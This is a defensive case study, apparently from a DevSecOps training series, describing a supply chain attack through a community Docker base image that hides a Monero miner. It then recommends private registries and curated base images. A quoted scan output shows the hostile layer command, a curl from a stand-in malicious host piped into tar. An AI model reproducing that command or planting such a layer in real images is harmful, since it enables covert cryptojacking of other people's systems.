

# Case Study 03: Malicious Docker Base Image Supply Chain Attack

[⬅️ Prev: Log4j Crisis](./02_Scenario_Log4j_Zero_Day_Dependency_Crisis.md) | [Back to Scenarios](./README.md) | [Next: Overprivileged Terraform ➡️](./04_Scenario_Overprivileged_Terraform_S3_Bucket_Misconfig.md)

---

### 1. Incident Timeline & Attack Vector

- **09:30 AM**: A developer building a new Node.js microservice searches Docker Hub and picks a community image: `FROM node-alpine-optimized:latest` (published by an unverified account).
- **10:15 AM**: The image passes local functional unit tests and gets deployed to the staging Kubernetes cluster.
- **12:15 PM (2 Hours later)**: An obfuscated background cron job inside `/etc/periodic/hourly/update-check` wakes up.
- **12:16 PM**: The script downloads an XMRig Monero miner, drops it in `/tmp/.x11`, and initiates an outbound stratum connection to a mining pool.



---

### 2. Forensic Investigation with Trivy Image Scan

Running Trivy against the tainted image reveals the malicious hidden layer:
```bash
trivy image --severity HIGH,CRITICAL node-alpine-optimized:latest
```
**Output**:
```text
Layer sha256:4a812b... (Added 4 MB)
Cmd: /bin/sh -c curl -sL http://malicious-cdn.biz/miner.tar.gz | tar -xz -C /tmp/
Vulnerability: MALWARE-DETECTED: CoinMiner.Linux.XMRig
```

---

### 3. Enterprise Hardening: The Golden Image Factory

To prevent unverified external base images from entering production:
1. **Private Container Registry (Harbor / ECR)**:
   - Configure Kubernetes Admission Controller (Kyverno) to reject any pod pulling from `docker.io/*`.
   - Pods may **ONLY** pull from `registry.corp.contoso.com/*`.
2. **Automated Golden Base Images**:
   - DevSecOps platform team curates, patches, and scans official golden base images (`corp/alpine`, `corp/python`, `corp/node`) rebuilt on a weekly automated schedule with zero critical CVEs.
